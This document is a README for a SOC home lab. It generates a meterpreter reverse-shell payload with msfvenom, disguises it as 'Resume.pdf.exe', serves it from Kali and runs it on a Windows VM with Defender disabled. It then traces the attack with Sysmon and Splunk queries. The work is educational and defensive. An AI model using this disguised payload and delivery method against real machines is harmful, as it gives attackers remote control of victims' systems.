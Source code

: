 # Lab in Action – SOC Home Lab

## Overview
This document explains the execution phase of the SOC home lab using **Kali Linux** and **Windows 10 Pro**.  
The goal is to simulate an attack–defense scenario where we:
- Perform reconnaissance and exploitation from Kali.
- Deliver and execute malware on Windows.
- Monitor and investigate events using **Sysmon + Splunk**.

A PDF file with screenshots is provided alongside this README for visual reference.

---

## Steps

### 1. Reconnaissance
- From **Kali Linux**, run an Nmap scan against the Windows target:
  ```nmap 192.168.20.10```
- Port 3389 (RDP) should appear open. NOTE: If it doesn't appear open, we need to activate Remote Desktop on our Windows machine.

### 2. Malware Creation with msfvenom
- On Kali, generate a payload:
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe```
- LHOST = Kali IP
- LPORT = Listening port (example: 4444)

### 3. Starting Metasploit
- Launch Metasploit:
```metasploit```
- Use the multi-handler:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 4444
run
```

### 4. Hosting the Malware
- Start a simple web server in Kali to share the payload:
```python3 -m http.server 9999```
- Windows will later connect to Kali on port 9999 to retrieve the file.

### 5. Defender-Side Preparation
- On Windows 10 Pro (or your version of Windows), disable Windows Defender (to allow file execution).
- From the browser, navigate to:
```http://192.168.20.11:9999/Resume.pdf.exe```
- Download and execute the file (a warning will appear; proceed for the test).

### 6. Verifying the Connection
- Back in Kali, confirm the meterpreter session is opened.
- Test with some commands (sysinfo, ipconfig) to validate shell access.
- In Windows Task Manager, you should see Resume.pdf.exe running.

### 7. Splunk & Sysmon Analysis
- Open Splunk on Windows (http://localhost:8000).
- Search for Sysmon logs:
```index=endpoint```
- Look for:
  - Source IP (Kali machine).
  - Destination ports scanned/used.
  - Process events triggered by the payload (Resume.pdf.exe).
**Example Investigations**
- Check ports targeted:
```index=endpoint dest_ip=192.168.20.10 | stats count by dest_port```
- Search for the malware process:
```index=endpoint Image="*Resume.pdf.exe"```
- Filter EventCode 1 (Process Create):
```index=endpoint EventCode=1```
  - Expand logs to view Parent Process and CommandLine execution.
- Use the Process GUID to pivot and track all related child processes (e.g., malware spawning cmd.exe).

## Notes
- A PDF version of this lab with full screenshots is included in this repository for visual reference.
- Use the PDF when following along if you prefer to see exact UI examples.

## Disclaimer
- This lab is for educational purposes only.
- All testing was performed in a controlled, isolated environment.
